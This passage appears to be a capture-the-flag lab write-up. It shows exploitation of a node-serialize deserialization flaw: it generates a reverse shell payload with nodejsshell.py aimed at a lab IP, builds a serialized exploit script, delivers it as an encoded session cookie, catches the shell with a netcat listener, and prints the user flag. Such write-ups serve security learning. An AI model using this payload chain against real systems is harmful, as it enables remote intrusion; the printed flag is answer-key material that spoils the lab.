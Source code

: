 <img width="616" height="200" alt="image" src="https://github.com/user-attachments/assets/3ccf1684-0850-4c5d-82b3-bfecdb6e5536" />

### Payload Generation

**Step 1: Generate reverse shell payload**
```bash
python2 nodejsshell.py 10.10.14.89 4444
```

<img width="966" height="517" alt="image" src="https://github.com/user-attachments/assets/cf7f03e2-ac5d-46be-b639-2ca99038a5ae" />


**Step 2: Create exploit script (log.js)**
```javascript
var y = {
rce : function(){
  // Generated reverse shell payload from nodejsshell.py
  eval(String.fromCharCode(...))
},
}
var serialize = require('node-serialize');
console.log("Serialized: \n" + serialize.serialize(y));
```

**Step 3: Execute and modify payload**
```bash
node log.js
```

<img width="966" height="517" alt="image" src="https://github.com/user-attachments/assets/24f858e1-93ab-4175-beab-aee445533091" />


**Step 4: Add invocation parentheses** - Critical step to ensure function execution during deserialization.

### Final Exploit Delivery

The crafted malicious cookie payload is:
- Base64 encoded
- URL encoded
- Submitted as session cookie

**Reverse Shell Listener:**
```bash
nc -nlvp 4444
```
<img width="953" height="353" alt="image" src="https://github.com/user-attachments/assets/2b8435bf-70df-4afb-9b24-3b20a4dd71f9" />


### Initial Access

Successful exploitation provides a reverse shell as user `sun`.

**User Flag:**
```bash
cat user.txt
96abe38234f67c3f5f25c8f601abe83e
```

